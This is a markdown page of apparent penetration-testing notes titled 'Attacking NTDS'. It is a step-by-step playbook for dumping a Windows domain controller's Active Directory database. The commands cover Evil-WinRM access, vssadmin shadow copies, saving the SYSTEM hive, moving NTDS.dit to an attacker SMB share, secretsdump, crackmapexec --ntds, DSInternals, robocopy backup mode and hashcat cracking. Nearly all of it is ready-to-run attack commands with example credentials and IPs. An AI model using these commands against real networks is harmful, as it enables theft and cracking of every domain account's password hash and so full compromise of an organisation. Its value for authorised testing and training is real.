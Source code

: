 ```yaml
---
title: Attacking NTDS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
```

# Attacking NTDS

By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller. The .dit stands for directory information tree. 

## Alternative #1: vssadmin (locally)

**1.** Connecting to a DC with Evil-WinRM

```shell-session
evil-winrm -i $DomainControllerIP  -u $username -p $password
# Example:
# evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

**2.** Checking Local Group Membership

```shell-session
net localgroup
```

**3.** Checking User Account Privileges including Domain

```shell-session
net user $username
# Example: 
# net user bwilliamson
```

**4.** Creating Shadow Copy of C: We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install.

```shell-session
vssadmin CREATE SHADOW /For=C:
```

Results:

```
Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

**5.** Copying NTDS.dit from the VSS: We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

**6.** We will also need either the SYSTEM hive or bootkey is required for local parsing. So let's save the system hive

```cmd
reg.exe save hklm\system C:\system.save
```

**7.** Transfer file to attacking machine. For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
# If you are from powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ipAttacker\CompData
cmd.exe /c move system.save \\$ipAttacker\CompData

# If you have a cmd terminal
move C:\NTDS\NTDS.dit \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData

```

**8.** Extract and crack ntds.dit locally:

```bash
python ~/tools/impacket/examples/secretsdump.py -ntds ~/borrar/NTDS.dit  -system ~/borrar/system.save -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```


## Alternative #2: crackmapexec (remotely)

```shell-session
crackmapexec smb $ip -u $username -p $password --ntds
# Example: 
# crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

Cracking a Single Hash with Hashcat

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```


## Alternative #3:  `DSInternals` module (locally)

The [DSInternals Framework](https://www.nuget.org/profiles/DSInternals) exposes several internal features of _Active Directory_ and can be used from any .NET application.

#### Installation

Since PowerShell 5, you can install the DSInternals module directly from the official [PowerShell Gallery](https://www.powershellgallery.com/packages/DSInternals/) by running the following command:

```powershell
Install-Module DSInternals -Force
```

The DSInternals PowerShell Module can also be installed using the official [Chocolatey package](https://chocolatey.org/packages/dsinternals-psmodule) by executing the following Chocolatey command:

```powershell
choco install dsinternals-psmodule --confirm
```

This package is self-contained and it will also install all dependencies. 

#### Commands to Extract the NTDS file + Boot Key 

```powershell
Import-Module .\DSInternals.psd1
# Extract the Boot Key from the SYSTEM Hive 
$key = Get-BootKey -SystemHivePath .\SYSTEM

# Extract NTLM Hashes for a Specific Account
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```


## Alternative #4: Robocopy (locally)

The built-in utility [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) can be used to copy files in backup mode as well. Robocopy is a command-line directory replication tool. It can be used to create backup jobs and includes features such as multi-threaded copying, automatic retry, the ability to resume copying, and more.

Robocopy differs from the `copy` command in that instead of just copying all files, it can check the destination directory and remove files no longer in the source directory.

```cmd-session
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
# -/B → Runs the copy operation in Backup mode, allowing the command to bypass file access restrictions (even for files locked by the system).
# E:\Windows\NTDS → The source folder, which in this case is the Active Directory (AD) database directory on a Windows Domain Controller.
# .\ntds → The destination folder (a local folder named ntds in the current directory).
# ntds.dit → The specific file being copied, which is the Active Directory database.
```


## Cracking ntds file

### secretsdump.py

We will need either the SYSTEM hive or bootkey:

```bash
python3 /opt/impacket/examples/secretsdump.py -ntds ~/borrar/ntds.dit -system ~/Extract/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

python3 /opt/impacket/examples/secretsdump.py -ntds ~/borrar/ntds.dit -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```


## Domain Password Analysis

Once we have extracted the NTDS database we can perform offline password cracking. 

We can  use a tool such as [DPAT](https://github.com/clr2of8/DPAT) to perform a domain password analysis.

 Our analysis can be included in the appendices of the report with metrics such as:
 
- Number of password hashes obtained
- Number of password hashes cracked
- Percent of password hashes cracked
- Top 10 passwords
- Password length breakdown
- Number of Domain Admin passwords cracked
- Number of Enterprise Admin passwords cracked